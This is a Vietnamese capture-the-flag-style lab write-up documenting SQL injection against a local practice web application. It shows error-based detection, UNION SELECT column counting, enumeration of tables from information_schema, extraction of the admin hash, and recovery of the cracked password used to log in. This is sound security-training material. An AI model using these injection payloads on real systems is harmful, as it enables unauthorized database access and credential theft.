 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03/2022

# Cách làm:
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:

    | No. | Table                                          |
    | --- | ---------------------------------------------- |
    | 1   | picture: ruby                                  |
    | 2   | picture: cthulhu                               |
    | 3   | picture: character_sets                        |
    | 4   | picture: collations                            |
    | 5   | picture: collation_character_set_applicability |
    | 6   | picture: columns                               |
    | 7   | picture: column_privileges                     |
    | 8   | picture: engines                               |
    | 9   | picture: events                                |
    | 10  | picture: files                                 |
    | 11  | picture: global_status                         |
    | 12  | picture: global_variables                      |
    | 13  | picture: key_column_usage                      |
    | 14  | picture: partitions                            |
    | 15  | picture: plugins                               |
    | 16  | picture: processlist                           |
    | 17  | picture: profiling                             |
    | 18  | picture: referential_constraints               |
    | 19  | picture: routines                              |
    | 20  | picture: schemata                              |
    | 21  | picture: schema_privileges                     |
    | 22  | picture: session_status                        |
    | 23  | picture: session_variables                     |
    | 24  | picture: statistics                            |
    | 25  | picture: tables                                |
    | 26  | picture: table_constraints                     |
    | 27  | picture: table_privileges                      |
    | 28  | picture: triggers                              |
    | 29  | picture: user_privileges                       |
    | 30  | picture: views                                 |
    | 31  | picture: categories                            |
    | 32  | picture: pictures                              |
    | 33  | picture: users                                 |

- Nhưng ở đây, ta sẽ quan tâm tới table users. Đây sẽ là nơi chứa thông tin của các user trong database
- Đầu tiên, ta cần biết số lượng cột và tên từng cột trong bảng users
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,column_name,3,4 from information_schema.columns where table_name='users'
  ```
- Kết quả trả về gồm 3 cột với tên lần lượt là: id, login, password
- Từ đây, ta có thể dễ dàng show ra thông tin toàn bộ users
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,concat(id,0x3a,login,0x3a,password),3,4 from users

  Kết quả trả về: 1:admin:8efe310f9ab3efeae8d410a8e0166eb2
  ```
- Đây là thông tin về admin, giờ chúng ta thử đăng nhập. Nhưng không thành công, có thể suy đoán mật khẩu đã được mã hóa.
- Ta sẽ thử giải nén mật khẩu. Và sau khi thử các cách giải mã: DES, 3DES, AES, SHA, MD5,.. thì password nhận được là P4ssw0rd.
- Đến đây ta đã có thông tin username: admin, password: P4ssw0rd. Và bây giờ ta đã có thể đăng nhập thành công và tùy ý thêm và xóa các bức tranh.